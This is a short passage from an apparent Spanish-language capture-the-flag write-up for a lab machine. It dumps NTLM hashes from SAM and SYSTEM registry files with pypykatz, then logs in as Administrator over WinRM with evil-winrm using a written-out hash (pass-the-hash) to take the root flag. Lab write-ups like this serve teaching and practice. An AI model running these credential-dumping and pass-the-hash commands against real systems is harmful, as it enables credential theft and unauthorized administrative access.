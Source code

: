 Con la herramienta de **pypykatz** procederemos a extraer los hashes NTLM de la SAM.

```bash
pypykatz registry --sam SAM SYSTEM 2>/dev/null
```

<figure><img src="../../../.gitbook/assets/imagen (134).png" alt="" width="563"><figcaption></figcaption></figure>

Procederemos de conectarnos al WinRM que encontramos expuesto con **evil-winrm** intentando acceder con el usuario "Administrator" y con su respectivo hash NTLM. Comprobaremos que accedemos sin problemas y encontraremos la _flag_ del root.

```bash
evil-winrm -i 10.10.11.35 -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'
```

<figure><img src="../../../.gitbook/assets/imagen (135).png" alt=""><figcaption></figcaption></figure>
